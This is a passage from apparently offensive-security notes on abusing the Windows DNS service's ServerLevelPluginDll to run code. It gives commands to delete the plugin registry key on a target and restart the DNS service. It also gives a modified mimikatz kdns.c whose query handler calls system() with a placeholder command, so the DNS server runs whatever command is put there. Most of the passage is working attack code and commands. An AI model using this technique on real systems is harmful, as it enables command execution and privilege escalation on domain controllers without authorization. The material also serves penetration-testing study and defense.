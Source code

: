 Remove the key that points to our custom DLL:
```console
C:\zeropio> reg delete \\<TARGET>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

Start DNS service again:
```console
C:\zeropio> sc.exe start dns
```

Check the DNS service:
```console
C:\zeropio> sc query dns
```

### Using Mimilib.dll

We can also use the [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) (from mimikatz) to gain RCE modifying the [kdns.c](https://raw.githubusercontent.com/gentilkiwi/mimikatz/master/mimilib/kdns.c):
```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```
